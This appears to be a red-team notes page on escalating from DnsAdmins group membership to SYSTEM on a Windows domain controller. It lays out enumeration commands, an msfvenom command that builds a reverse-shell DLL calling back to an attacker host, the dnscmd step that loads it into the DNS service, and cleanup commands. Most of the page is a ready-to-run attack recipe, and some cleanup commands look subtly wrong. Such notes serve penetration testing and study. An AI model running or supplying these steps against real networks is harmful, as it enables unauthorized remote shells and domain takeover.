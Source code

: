 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> The user must be part of `DnsAdmins` domain group.


```
C:\> net user %USERNAME% /domain

C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
..[omitted]..
DOMAIN\DnsAdmins                                              Alias            S-1-5-64-10
```

```
C:\> reg.exe query HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll

PS C:\> Get-ItemProperty Registry::HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

## 02 - Exploit

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```


```
C:\> dnscmd.exe /config /serverlevelplugindll .\payload.dll

C:\> sc.exe continue dns
```

## 03 - Cleanup

### 3.1 - Command Prompt

```
C:\> reg.exe delete HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll
```

```
C:\> net.exe continue dns

C:\> sc.exe continue dns
```

### 3.2 - Powershell

```
PS C:\> Get-ItemProperty Registry::HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

PS C:\> Restart-Computer -Force dns
```

```
PS C:\> Get-Service -ComputerName <IP> -Name dns | Restart-Service -Force

PS C:\> Get-Service -ComputerName <IP> -Name dns | Stop-Service -Force

PS C:\> Get-Service -ComputerName <IP> -Name dns | Start-Service
```

---
## References

### Backlinks

- [[DLL Injection|Malware Development: DLL Injection]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Active Directory/0xA - Internal Reconnaissance/Users/Manual/Living off the Land]]

### Hacktricks

- [Hacktricks: Privileged Groups](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

### Red Team Notes

- [Red Team Notes: From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation - DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)